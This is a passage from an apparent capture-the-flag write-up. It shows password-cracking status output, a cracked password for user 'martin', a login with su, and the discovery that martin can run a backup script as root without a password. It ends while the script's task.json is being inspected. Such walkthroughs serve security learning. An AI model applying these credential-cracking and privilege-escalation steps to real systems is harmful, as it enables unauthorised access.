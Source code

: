 ```bash
Restore.Point....: 5222400/14344384 (36.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: nairb234 -> nabete
Hardware.Mon.#1..: Temp: 55c Util: 10%

Started: Tue Jul 22 05:37:40 2025
```

The password of martin is successfully cracked : `nafeelswordsmaster`
We can now log in as martin :
```bash
$ su martin
password: nafeelswordsmaster
$ whoami
martin
```

When logged in as martin, we can see that he can execute a specific command as sudo, without password :
```bash
$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

Let's try to understand this script :
```bash
$ cat  /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

...

/usr/bin/backy "$json_file"
```

It uses the command backy to make a backup of some directories with a configuration file "task.json". We can find a valid task.json file in his home directory :
```bash
$ cat ~/backups/task.json

{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```
